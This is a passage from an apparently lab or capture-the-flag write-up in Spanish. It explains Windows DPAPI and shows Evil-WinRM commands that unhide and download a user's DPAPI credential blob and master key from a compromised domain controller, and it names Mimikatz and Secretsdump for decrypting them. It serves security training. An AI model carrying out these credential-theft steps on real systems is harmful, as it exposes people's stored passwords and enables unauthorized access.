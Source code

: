 **¿Qué es DPAPI?**

**DPAPI (Data Protection API)** es una API de Windows que protege datos sensibles como contraseñas y claves mediante criptografía. Su objetivo es asegurar que solo el usuario o equipo autorizado pueda acceder a esa información. Sin embargo, si un atacante tiene acceso al sistema o privilegios elevados, puede extraer o descifrar estos secretos usando herramientas como **Mimikatz** o **Secretsdump**. Esto se convierte en un vector de escalación de privilegios, ya que los secretos protegidos pueden contener credenciales que permiten el acceso a otras cuentas o servicios.

Una vez obtenemos acceso al Domain Controller a través de **Evil-WinRM**, navegamos al directorio donde se almacenan las credenciales protegidas por DPAPI, específicamente en **C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials**. Usamos el comando **dir -force** para visualizar los archivos, luego eliminamos los atributos de oculto y solo lectura (**attrib -h -s**) para poder acceder a ellos. Finalmente, descargamos el archivo que contiene las credenciales con el comando **download** para proceder a su análisis posterior.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

dir -force

attrib -h -s 

download C4BB96844A5C9DD45D5B6A9859252BA6
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2741_vmware_Zu2NVnO7KZ.png" alt=""><figcaption></figcaption></figure>

Después de descargar el archivo, accedimos al directorio **Microsoft\Protect**, que es donde se guardan los datos de protección relacionados con las credenciales. Navegamos hasta la carpeta correspondiente al SID del usuario **C.Neri**, **S-1-5-21-4024337825-2033394866-2055507597-1115**, y encontramos otro archivo relacionado con las credenciales protegidas.

Realizamos el mismo procedimiento para eliminar los atributos de oculto y solo lectura y procedimos con la descarga del archivo **99cf41a3-a552-4cf7-a8d7-aca2d6f7339b.** En mi caso, si no se elimaba los atributos de oculto y solo lectura el **evil-winrm** nos daba un error.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\

dir -force

cd S-1-5-21-4024337825-2033394866-2055507597-1115

dir -force

attrib -h -s 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```
{% endcode %}